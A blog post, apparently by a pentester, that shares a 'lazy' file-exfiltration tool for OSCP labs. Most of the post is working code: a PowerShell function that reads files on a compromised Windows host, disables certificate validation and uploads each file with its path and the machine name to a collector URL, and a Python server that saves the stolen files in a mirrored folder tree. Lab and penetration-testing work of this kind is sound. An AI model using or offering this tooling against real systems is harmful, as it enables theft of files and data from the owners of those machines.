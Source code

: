 ```yaml
---
title: "Lazy file exfiltration for OSCP labs with powershell python and crackmapexec"
date: 2024-02-08T15:34:30-06:00
categories:
  - blog
tags:
  - exfiltration
  - python
  - powershell
  - OSCP
---
```

<b>Lazy is good when the result is that lazy becomes affordable.</b>

<b>Background:</b>
While diving into OSCP labs, I found myself searching through disk contents for clues. Although I'm adept at using the command line, sometimes the ease of navigating folders visually is preferable. Missing crucial details in a lab, likely from being tired, made me decide to find a better solution to avoid such misses.

<b>The Idea:</b>
My plan was to automate a simple yet effective process. The goal was to filter and exfiltrate files to a web server where I could easily sift through them. Simplicity was the cornerstone.

<b>Solution:</b>
I opted for a Powershell script utilizing Get-ChildItem with a -Filter parameter, coupled with the System.Net.Webclient class for exfiltration. I discovered a Python3 web server by another creator that fit my initial needs and decided to build upon it. Credit to the original creator: Lightweight HTTP Upload Server.

<b>Challenge:</b>
I needed more than just dumping files into a single folder; I wanted them organized. This meant enhancing the server to handle additional data from my script for better file management.

<b>Check It Out:</b>
See the current version on GitHub: Jeamajoal's Lazy PwshPy Exfiltrator. The Powershell script's core functionality is in the upload function, where it sends file data along with the file path, so the server knows where to place the files.

<b>Powershell snippet for uploading files:</b>

'''powershell
function UploadToWebServer($filepath, $url) {
        [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true } ;
        $filename = Split-Path $FilePath -Leaf
        $boundary = [System.Guid]::NewGuid().ToString()

        $TheFile = [System.IO.File]::ReadAllBytes($filePath)
        $TheFileContent = [System.Text.Encoding]::GetEncoding('iso-8859-1').GetString($TheFile)

        $id = $env:computername

        $LF = "`r`n"
        $bodyLines = (
            "--$boundary",
            "Content-Disposition: form-data; name=`"path`"$LF",
            $(Split-Path $FilePath),
            "--$boundary",
            "Content-Disposition: form-data; name=`"id`"$LF",
            $id,
            "--$boundary",
            "Content-Disposition: form-data; name=`"filename`"; filename=`"$filename`"",
            "Content-Type: application/json$LF",
            $TheFileContent,
            "--$boundary--$LF"
        ) -join $LF

        Invoke-RestMethod $url -Method POST -ContentType "multipart/form-data; boundary=`"$boundary`"" -Body $bodyLines
    }
'''

<b>Python server side for handling the data:</b>

'''python
def deal_post_data(self):
        global serverpath 
        line = b'' #Initialize line data as byte
        file_data = b''  # Initialize file_data as an empty byte string
        in_file_data = False #Initialize in file as boolean
        content_type = self.headers['content-type']
        if not content_type:
            return (False, "Content-Type header doesn't contain boundary")
        boundary = content_type.split("=")[1]
        boundary = boundary.replace('"','').encode()
        end_boundary = boundary + b"--"
        totalbytes = int(self.headers['content-length'])
        remainbytes = totalbytes
        #modify serverpath with alternate upload dir  
        if uDir:
            serverpath = os.path.join(os.getcwd(),uDir)
        else:
            serverpath = os.getcwd()
   
        #Process request
        while remainbytes > 0:
            line = self.rfile.readline()
            remainbytes -= len(line)

            if in_file_data:
                if boundary in line:
                    in_file_data = False
                    file_data = file_data[:-2]  # Remove the last CRLF before boundary
                    if end_boundary in line:
                        break  # End of data
                else:
                    file_data += line
                    continue

            if end_boundary in line:
                        break  # End of data
            if boundary in line:
                line = self.rfile.readline()
                remainbytes -= len(line)
                id = re.findall(r'Content-Disposition.*name="id"', line.decode())
                reqpath = re.findall(r'Content-Disposition.*name="path"', line.decode())
                fn = re.findall(r'Content-Disposition.*name="filename"; filename="(.*)"', line.decode())
                if fn:
                    in_file_data = True
                    file_name = re.findall(r'Content-Disposition.*name="filename"; filename="(.*)"', line.decode())
                    file_data = file_data[:-2]
                    line = self.rfile.readline()
                    remainbytes -= len(line)
                    line = self.rfile.readline()
                    remainbytes -= len(line)

                elif reqpath:
                    line = self.rfile.readline()
                    remainbytes -= len(line)
                    line = self.rfile.readline()
                    remainbytes -= len(line)
                    reqpath = line
                    ip_address = self.client_address[0]
                    #remove \r\n
                    reqpathstr = reqpath.decode()
                    reqpathstr = reqpathstr.replace("\r","")
                    reqpathstr = reqpathstr.replace("\n","")
                    if reqpathstr.startswith('/') or reqpathstr.startswith('\\'):
                        reqpathstr = reqpathstr.strip('/')
                        reqpathstr = reqpathstr.strip('\\')
                    reqpathstr = reqpathstr.replace('\\','/')
                    reqpathstr = reqpathstr.replace('\\','/')
                    reqpathstr = reqpathstr.replace('//','/')
                    reqpathstr = reqpathstr.replace(':','')
                    reqpathstr = os.path.join(ip_address,reqpathstr)
                    finalpath = os.path.join(serverpath,reqpathstr)

                elif id:
                    #print(line)
                    line = self.rfile.readline()
                    #print(line)
                    remainbytes -= len(line)
                    line = self.rfile.readline()
                    #print(line)
                    remainbytes -= len(line)
                    line = line.decode()
                    line = line.replace("\r","")
                    line = line.replace("\n","")
                    newid = line
                    
        if finalpath:
            serverpath = finalpath                    
        
        if newid:
            serverpath = serverpath.replace(ip_address,newid)

        serverpath = serverpath.lower()
        if not os.path.exists(serverpath):
            os.makedirs(serverpath)

        fn = os.path.join(serverpath, file_name[0])
        #print(f'Final upload path: {serverpath}')
        try:
            with open(fn, 'wb') as out:
                out.write(file_data)
            return ('succeeded',self.client_address,fn )
        except:
            return ('Failed',self.client_address,fn )
'''

Check out the github repo where i will add some use caes and screenshots so you can feel like you were there.

